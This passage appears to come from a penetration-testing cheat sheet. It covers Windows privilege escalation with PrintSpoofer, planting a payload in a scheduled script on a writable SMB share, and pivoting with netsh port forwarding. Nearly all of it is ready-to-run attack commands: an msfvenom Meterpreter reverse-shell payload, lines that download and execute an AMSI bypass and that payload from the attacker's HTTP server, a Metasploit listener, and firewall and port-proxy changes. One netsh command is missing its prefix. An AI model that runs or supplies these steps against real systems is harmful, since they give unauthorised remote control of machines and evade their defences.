 ```bash

# Privilege Escalation with PrintSpoofer:
PrintSpoofer.exe -i -c cmd
```

### 4.3 Payload delivery via SMB share + Scheduled Task
```bash
# Suppose we found cleanup.ps1 on SMB Share
# Check write access
echo hello > hello.txt
smbclient -N \\\\192.168.2.21\\files
smb: \> cd maintenance
smb: \maintenance\> put hello.txt

# Generate payload
msfvenom -p windows/x64/meterpreter_reverse_tcp -f psh LHOST=192.168.2.1 -o payload.ps1

# edit cleanup.ps1 locally
iex (iwr -UseBasicParsing http://192.168.2.1:8000/amsibypass);
iex (iwr -UseBasicParsing http://192.168.2.1:8000/payload.ps1)

# upload modified cleanup.ps1 file
smb: \maintenance\> put cleanup.ps1

# Serve amsibypass file
root@kali:~/Desktop/tools# python -m SimpleHTTPServer 8000

# Setup metasploit listener
msfconsole -q
msf5 > use exploit/multi/handler
msf5 exploit(multi/handler) > set PAYLOAD windows/x64/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set LHOST 192.168.2.1
msf5 exploit(multi/handler) > exploit
```

## 5. Post-Exploitation: Pivoting & Tunnelling
### 5.1 Port Forwarding with netsh
```bash
# Allowing Traffic on a Specific Port:
advfirewall firewall add rule name="forward_port_rule" protocol=TCP dir=in localip=192.168.0.147 localport=4455 action=allow

# Setting Up a Port Proxy:
netsh interface portproxy add v4tov4 listenport=4455 listenaddress=192.168.0.147 connectport=445 connectaddress=10.10.1.13

# SMB Client Adjustments (Linux):
nano /etc/samba/smb.conf
/etc/init.d/smbd restart
```
